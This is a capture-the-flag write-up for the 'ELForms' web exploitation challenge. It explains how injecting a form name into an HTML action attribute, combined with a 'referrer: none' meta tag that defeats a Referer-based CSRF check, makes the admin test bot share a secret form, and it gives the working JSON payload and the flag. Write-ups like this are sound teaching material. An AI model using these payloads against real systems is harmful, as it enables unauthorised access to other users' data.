


# ELForms

- Published: 12/24/2024 (#24/25 in event)
- Category: Web exploitation
- Points: 130
- Author: GodderE2D

“It was snowing this morning,” Agent Aspen said.

“I know it’s your last day—but we have something for you to do. It won’t take long, I promise.”

We’re anticipating that K.U.N.A.L himself is coming after our systems. We have this internal software that another
intern created a few years ago; we’ve been using it ever since they pitched it to Santa. Santa was impressed, but after
taking a closer look it doesn’t look very secure at all.

[https://elforms.csd.lol/](https://elforms.csd.lol/) (source code is attached)

---

_**You are only allowed to test in the scope `https://*elforms.csd.lol/*`.** Blind brute-force request sending (e.g.,
using tools like DirBuster) can trigger Cloudflare rate limits. Do not attempt to bypass Cloudflare limits. Therefore,
if you wish to brute-force, please limit your wordlists or attack scope._

## Attachments

- [Source code](https://files.vipin.xyz/api/public/dl/NcRnfu5V/Day%2024%20-%20ELForms/elforms.tar.gz)

## Hints

**Hint 1:**  
Taking a look at `init-db.js`, it appears that the “admin” user creates a form that has the flag as the name. Are there
any attack vectors to getting the name of this form?

Take a look at your browser’s DevTools (particularly the Sources, Network, and Application tabs) and try to compare
requests with responses from the API in the two `server.js` files. Do you notice anything insecure that can be
exploited?

**Hint 2:**  
Running the Docker container locally or running the two servers manually may be helpful.

What does `POST /forms/test` do? What does the `csrf` function check for? How can those be possible exploited?

## Write-up

<details>
<summary>Reveal write-up</summary>

First, in `/init-db.js`, we can see where the flag will be stored:

```js
db.prepare(
  `insert into user (id, username, password) values (
    'f02536d1-a338-4d15-bcaa-c9ffbd2659a8',
    'admin',
    '$2y$10$c2VPz9tvLkA.ApNmD.W6X.JTcRYY2/2nJM5cFDOXYAl5rS1XVjcL6'
  )`
).run();

db.prepare(
  `insert into form (id, author_id, name, description, questions, meta, public) values (
    '7e27fe8a-447e-4c8f-bb37-133aae88f07e',
    'f02536d1-a338-4d15-bcaa-c9ffbd2659a8',
    ?,
    'top secret form',
    '[{"name":"foo","defaultValue":"bar"},{"name":"foo","defaultValue":"bar"}]',
    '{"og:title":"...","og:description":"top secret form"}',
    0
  )`
).run(process.env.FLAG || "csd{test_flag}");
```

The admin user creates a form with the flag as the title, but we don't have access to this form.

Upon signing up, we can attempt to create a form. Note that the homepage mentions "testing" a form submission, which may
hint that this is a cross-site scripting (XSS) challenge.

Let's first create a test form by inputting random values into `/forms/create`:



We can see that the default values we inputted are indeed pre-filled into the fields. Submitting the form sends a POST
request to the same URL, simple HTML forms. No JavaScript is involved here.

Note that this is also a different domain than our original URL: `form-elforms.csd.lol` rather than `elforms.csd.lol`.

Now, let's try going back to `/forms` and pressing the Test button. We get a message that an elf will go "test" our
form, but there are no updates beyond that.

Taking a look at the source code, we can see that the code to test the form in `/main/server.js` looks pretty normal:

```js
await page.setCookie({
  name: "token",
  value: token,
  domain: process.env.MAIN_BASE_URL.replace("http://", "").replace("https://", ""),
  path: "/",
  expires: Date.now() + 30 * 24 * 60 * 60 * 1000,
  httpOnly: true,
  secure: false,
});

await page.goto(url);

await setTimeout(1000);

await page.locator("#submit").click();

await setTimeout(1000);

await page.close();
```

It sets a `token` cookie with `elforms.csd.lol` (from the environment variable), waits a second, looks for a button on
the page with the ID `submit`, and clicks on it. It then waits another second and closes the page.

```js
cluster.queue({
  url: `${process.env.FORM_BASE_URL}/${encodeURIComponent(form.name)}_${form.id}`,
  token: jwt.sign({ id: tester.id }, process.env.JWT_SECRET, {
    expiresIn: "30d",
  }),
});
```

The `token` cookie is a valid and signed [JSON Web Token (JWT)](https://en.wikipedia.org/wiki/JSON_Web_Token) of the
tester, who by default is the admin. However, the cookie is stored on the `elforms.csd.lol` domain, which is not the
same as the form submission domain `form-elforms.csd.lol`. More on this later.

Note that we can only test our own forms:

```js
if (form.author_id !== user.id) return res.status(401).send("Unauthorized");
```

It checks this by getting the username from our JWT cookie:

```js
function getUser(req) {
  if (!req.cookies.token) return;

  try {
    const { id } = jwt.verify(req.cookies.token, process.env.JWT_SECRET);
    if (typeof id !== "string") return false;

    return db.prepare("SELECT id, username FROM user WHERE id = ?").get(id);
  } catch (error) {
    console.error(error);
    return false;
  }
}
```

There is something else that stands out—it adds the tester to the `shared_ids` of the form.

```js
const shared_ids = form.shared_ids ? JSON.parse(form.shared_ids) : [];
shared_ids.push(tester_id);
// ...
db.prepare("UPDATE form SET shared_ids = ? WHERE id = ?").run(JSON.stringify([...new Set(shared_ids)]), id);
```

And when checking which forms a user can see and edit, the server checks if the user is in the `shared_ids` of the form:

```js
const forms = db.prepare("SELECT * FROM form WHERE author_id = ? OR shared_ids LIKE ?").all(user.id, `%${user.id}%`);
```

Hm, but you shouldn't need to _edit_ the form to submit a form. This seems weird, there could be something more to this.

We can't just edit `tester_id` to be our own ID, as that wouldn't be our own logged in ID (according to the cookie).
But, we can use the _tester_ (who has the admin cookie) to test the admin form which has the flag as the name.

So, we need to specify our own user ID as the `tester_id` to add it to the `shared_ids` list and specify `id` to be the
top secret form ID from `/init-db.js`.

So, how can we utilize the tester's cookie? We need to either extract it, or have it run a request while it's testing to
have the cookie attached to the request.

We can't extract the cookie—recall that the cookie is
[HTTP-only](https://developer.mozilla.org/en-US/docs/Web/Security/Practical_implementation_guides/Cookies#httponly). It
must be attached to a request.

Well, it won't be attached to just any request we make. It has to be on that domain, which is `elforms.csd.lol`.

Let's start going through the source code for the form submission page.

In `/form/views/pages/form.ejs`, we can see that the form name and ID are concatenated together with an underscore in
the action attribute:

```html
<form action="<%= form.name %>_<%= form.id %>" method="post" id="form" class="mb-2"></form>
```

In HTML, the [`action` attribute](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/form#action)
allows us to change the URL where the form is submitted.

Well, we have control over the name of the form. Plus, the `/` is not included in the original code, so we can specify
any URL from any domain we want! (But the resulting URL will have the underscore and form ID at the end.)

That's not a problem, though. We can simply append a URL fragment and it won't be included in the network request at
all.

So, if we have our form name be `http://elforms.csd.lol/forms/test#`, it will result in something like
`action="http://elforms.csd.lol/forms/test#_51fbbcda-8a1d-4ea7-9f03-fc8498d37657"`.

That will resolve to just `http://elforms.csd.lol/forms/test` in the network request. Conveniently, `POST /forms/test`
also allows `application/x-www-form-urlencoded` for the body. So, we should just be able to set the field names and the
default field values to the values we want.

Let's craft a form for our tester to use:

```json
// POST /forms/create
{
  "name": "https://elforms.csd.lol/forms/test#",
  "description": "...",
  "questions": [
    { "name": "id", "defaultValue": "7e27fe8a-447e-4c8f-bb37-133aae88f07e" },
    {
      "name": "tester_id",
      "defaultValue": "07cf1609-5c89-4df2-998d-df04102cb1b9"
    }
  ]
}
```

Recall that `7e27fe8a-447e-4c8f-bb37-133aae88f07e` is the ID of the top secret form we want to make public to us.

We can also get our account ID for `tester_id` by decoding the JWT:

```bash
$ echo 'eyJpZCI6IjA3Y2YxNjA5LTVjODktNGRmMi05OThkLWRmMDQxMDJjYjFiOSIsImlhdCI6MTc0ODEyMzc1MCwiZXhwIjoxNzUwNzE1NzUwfQ' | base64 --decode | jq
base64: invalid input
{
  "id": "07cf1609-5c89-4df2-998d-df04102cb1b9",
  "iat": 1748123750,
  "exp": 1750715750
}
```

However, a problem now arises. We are blocked by the `csrf()` middleware!

```js
function csrf(req, res, next) {
  if (req.headers.referer && !req.headers.referer.startsWith(process.env.MAIN_BASE_URL)) {
    return res.status(403).send("Forbidden");
  }

  next();
}
```

However, this is a
[Referer-based CSRF check](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses) and can be
bypassed here by not having a `Referer` header at all.

Well, conveniently, we can also custom-set our own meta tags, and one way to prevent the site from sending the Referer
header in requests is by using `<meta name="referrer" content="none">`:

```ejs
<% Object.entries(form.meta).forEach(([name, content]) => { %>
<meta name="<%= name %>" content="<%= content %>" />
<% }); %>
```

So, our final payload to `POST /forms/create` is:

```json
// POST /forms/create
{
  "name": "https://elforms.csd.lol/forms/test#",
  "description": "...",
  "questions": [
    { "name": "id", "defaultValue": "7e27fe8a-447e-4c8f-bb37-133aae88f07e" },
    {
      "name": "tester_id",
      "defaultValue": "07cf1609-5c89-4df2-998d-df04102cb1b9"
    }
  ],
  "meta": {
    "referrer": "none"
  }
}
```

Please note that the URL in `name` is `https`, not `http`. Chromium will warn you if you send a form request in an
insecure HTTP request.

After creating this form, let's go back to `/forms` and press the Test button. After a few seconds, let's navigate back
to `/forms`:



Looks like we've successfully added our user ID to the top secret form's `shared_ids`! Merry Christmas Eve!

Flag: `csd{wh4t_4N_3v3ntFuL_cHR15TM45_3v3}`

</details>

Write-up by GodderE2D
